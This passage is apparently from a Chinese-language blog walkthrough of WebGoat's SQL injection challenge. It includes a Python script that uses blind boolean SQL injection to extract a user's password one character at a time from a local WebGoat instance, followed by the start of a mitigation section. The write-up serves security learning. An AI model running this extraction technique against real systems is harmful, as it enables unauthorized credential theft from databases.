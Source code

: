 <img src="https://img.foopi.top/postpic/image-20210601152140183.webp" alt="image-20210601152140183" style="zoom:50%;" />

`start attack`后，可知密码长度为23：

<img src="https://img.foopi.top/postpic/image-20210601152252553.webp" alt="image-20210601152252553" style="zoom:50%;" />

burpsuite社区版爆破实在太慢了，朋友说能改线程数，我没能找到，大概是被阉割了。参考了原本放弃的python脚本版解法，发现并不难理解，稍作修改，跑出密码`thisisasecretfortomonly`。

最后多的两个符号有点奇怪？

<img src="https://img.foopi.top/postpic/image-20210601163435366.webp" alt="image-20210601163435366" style="zoom:50%;" />

```python
import requests
import string
chars = string.printable

vul_url = "http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge"

headers = {
  'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
  'X-Requested-With': 'XMLHttpRequest'
}
cookies = {
  'JSESSIONID': 'omFlKtq6XQFLTN2E3uHjKkZ2i_JZB8edIVKLm57s',
}

i = 0
result = ""
while True:
  i += 1
  tmp = result
  for char in chars:
    data = "username_reg=tom' and substr(password,{0},1)='{1}' --&email_reg=tom%40webgoat.dev&password_reg=123&confirm_password_reg=123".format(i, char)
    resp = requests.put(vul_url, data=data, headers=headers, cookies=cookies)
    #print(resp.text)
    if 'already exists' in resp.text:
      result += char
      print(result)
  if tmp == result:
    break
```

## SQL Injection (mitigation)

### Immutable Queries

These are the best defense against SQL injection.  They either do not have data that could get interpreted or they treat the data as a single entity that is bound to a column without interpretation.
